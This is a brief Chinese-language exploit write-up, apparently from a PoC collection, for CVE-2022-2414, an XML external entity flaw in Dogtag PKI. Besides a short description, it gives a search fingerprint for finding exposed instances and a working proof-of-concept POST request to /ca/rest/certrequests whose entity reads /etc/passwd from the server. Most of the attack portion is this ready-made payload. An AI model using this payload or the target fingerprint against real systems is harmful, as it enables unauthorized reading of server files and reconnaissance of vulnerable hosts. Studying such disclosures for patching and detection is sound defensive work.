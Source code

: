 # Dogtag PKI XML实体注入漏洞 CVE-2022-2414

# Dogtag PKI XML实体注入漏洞 CVE-2022-2414

## 漏洞描述

Dogtag PKI 的XML解析器存在安全漏洞，该漏洞源于在分析 XML 文档时访问外部实体可能会导致 XML 外部实体 （XXE） 攻击。此漏洞允许远程攻击者通过发送特制的 HTTP 请求来潜在地检索任意文件的内容。

## 漏洞影响

```
Dogtag PKI
```

## 网络测绘

```
title="Identity Management"
```

## 漏洞复现

登录页面

![image-20221024101747499](/images/202210241017604.png)

验证POC

```
POST /ca/rest/certrequests
Content-Type: application/xml

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

![image-20221024101759219](/images/202210241017273.png)

